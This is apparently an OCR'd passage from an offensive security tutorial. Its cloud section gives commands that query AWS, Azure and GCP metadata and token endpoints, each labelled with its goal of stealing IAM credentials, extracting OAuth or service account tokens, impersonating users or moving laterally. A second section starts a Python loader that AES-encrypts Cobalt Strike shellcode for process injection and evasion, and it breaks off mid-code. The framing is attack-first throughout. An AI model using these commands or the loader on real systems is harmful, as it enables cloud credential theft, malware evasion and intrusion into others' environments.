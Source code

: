 
---

4. Cloud Attacks (AWS/Azure/GCP)

Now, let’s hit the cloud environments.

AWS: Exploiting EC2 Metadata Service
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
Steal AWS IAM creds

Pivot to S3, Lambda, etc.


Azure: Dump Azure AD Tokens
```powershell
Invoke-WebRequest -Uri "https://login.microsoftonline.com/common/oauth2/token" -Method POST
```
Extract OAuth tokens

Impersonate users


GCP: Harvest IAM Roles
```bash
curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
```
Extract GCP service account tokens

Move laterally inside GCP



---

We now have:
✅ Automated payload execution with Aggressor scripts.
✅ Process injection & syscall execution (Windows, Linux, macOS).
✅ Stealthy C2 channels (HTTPS, DNS, Google fronting).
✅ Cloud attack vectors (AWS, Azure, GCP).

---

1. Automated Payload Loader (Python)

This script:
✅ Generates shellcode dynamically (Cobalt Strike, Meterpreter, etc.)
✅ Encrypts the payload with AES (Polymorphic)
✅ Deploys it via process injection

payload_loader.py (AES-Encrypted Loader)
```python
import os
import base64
import ctypes
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

# --- AES Encryption (Polymorphic) ---
KEY = b'ThisIsASecretKey'
IV = b'ThisIsAnIV456789'

def encrypt_shellcode(shellcode):
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    encrypted = cipher.encrypt(pad(shellcode, AES.block_size))
    return base64.b64encode(encrypted)

# --- Payload (Replace with your Cobalt Strike shellcode) ---
shellcode = b"\xfc\xe8\x89\x00\x00\x00..."

```